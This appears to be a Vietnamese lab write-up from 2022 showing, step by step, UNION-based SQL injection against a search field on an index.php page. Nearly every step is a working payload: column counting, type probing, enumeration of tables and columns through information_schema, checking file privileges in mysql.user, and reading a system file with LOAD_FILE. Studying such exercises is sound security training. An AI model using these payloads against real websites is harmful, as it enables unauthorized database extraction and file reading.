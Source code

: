 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
- LOAD_FILE()
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.](~/../img/1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.](~/../img/2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.](~/../img/3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.](~/../img/4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.](~/../img/5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.](~/../img/6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.](~/../img/7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.](~/../img/8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.](~/../img/9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.](~/../img/10.png)

12.  Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.](~/../img/11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.](~/../img/12.png)

## LOAD_FILE()
1. Đầu tiên, xem quyền của user bằng hàm `group_concat(table_name)`
`' UNION SELECT (SELECT group_concat(user,file_priv) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 13.](~/../img/13.png)

2. Kiểm tra file `tmp` đang ở đâu
`' UNION SELECT @@slave_load_tmpdir,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
=> `C:\xampp\tmp`
![Hinh 14.](~/../img/14.png)

3. File hosts
`' UNION SELECT load_file("C:/Windows/System32/Drivers/etc/hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 15.](~/../img/16.png)

